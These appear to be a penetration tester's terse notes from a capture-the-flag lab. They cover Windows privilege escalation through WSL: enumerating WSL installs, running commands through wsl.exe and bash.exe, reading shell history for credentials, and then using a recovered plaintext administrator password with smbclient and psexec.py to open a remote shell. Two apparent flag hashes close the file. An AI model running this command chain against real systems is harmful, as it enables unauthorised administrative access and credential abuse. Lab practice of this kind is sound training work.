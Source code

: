 [[__.Links (WINDOWS)#Escalation Path Windows Subsystem for Linux]]

```powershell - target
Get-ChildItem HKCU:\Software\Microsoft\Windows\CurrentVersion\Lxss | %{Get-ItemProperty $_.PSPath} | out-string -width 4096
```

```batch - windows
where /R C:\windows bash.exe
```

```batch - windows
where /R C:\windows wsl.exe
```



```batch - windows
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
```


```batch - windows
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

```bash - wsl
uname -a
```


![[Python#Shell break]]

```bash - wsl
history
```


```bash - kali
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\$TARGET\\c$
```


![[3_Gaining Shell Access (psexec.py)#Shell with psexec py]]

```bash - kali
psexec.py 'administrator:u6!4ZwgwOM#^OBf#Nwnh'@$TARGET
```


d9dd3d43032cb8c6e71c523efe61948a


b91b707a6f74cec08c3d15b3784a5c9d
